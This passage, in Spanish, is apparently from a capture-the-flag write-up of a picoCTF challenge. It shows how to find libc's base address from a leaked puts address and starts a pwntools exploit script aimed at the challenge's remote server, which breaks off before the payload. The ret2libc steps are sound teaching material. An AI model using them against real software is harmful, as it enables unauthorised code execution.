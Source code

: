 Ahora, ya sabemos los offsets a cada función pero no sabemos cual es la dirección base de la libc para poder llamar a las funciones como system. Para eso tenemos que hacer un leak de una función y restarle el offset que conocemos. Si nos damos cuenta ya hemos hecho un leak de puts así que podemos aprovecharlo y usarlo para calcularlo:

```python
libc.address = puts_addr - 0x67560
```

De donde sale esa dirección? esa dirección es el offset que tiene puts en la libc que descargamos y aparece si le damos click en la página:

<figure><img src="https://1790737885-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FslrEYJPx2X6Fc2iLHKGp%2Fuploads%2FTvGHhpoRXuPxutggZEo8%2Fimage.png?alt=media&#x26;token=e8b3f5d1-6860-4f18-8176-1ab512582c9e" alt=""><figcaption></figcaption></figure>

Entonces si le quitamos el offset de puts a la dirección de puts que filtramos tendremos la dirección base de la libc.

Podríamos también decirle a pwntools que nos saque el offset de la siguiente manera:

```c
libc.address = puts_addr - libc.symbols['puts']
```

Aquí si pwntools no sabe cual es la dirección de la libc nos saca el offset y una vez lo sepa nos saca la dirección real.

Ahora que ya tenemos la base del binario y la libc que hay en remoto ya podemos llamar a lo que queramos así que podemos pasar a hacer el script completo:

```python
#!/usr/bin/env python3

from pwn import *
import sys

exe = ELF("./vuln")
libc = ELF("./libc6-i386_2.27-3ubuntu1.6_amd64.so")

context.binary = exe
context.terminal = ['kitty']

gdb_script = '''
b main
continue
'''

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.GDB:
            gdb.attach(r, gdbscript=gdb_script)
        return r
    return remote("jupiter.challenges.picoctf.org", 18263)

offset_canary = 512

def main():
    io = conn()
    io.recvlines(4)

    # Bruteforce original para encontrar el número correcto:
    # for i in range(-4097, 4097):
    #     io.sendline(str(i))
    #     response = io.recvline()
    #     io.recvlines(2)
    #     if b"Congrats" in response:
    #         print(f"Correcto: {i}")
    #         break
```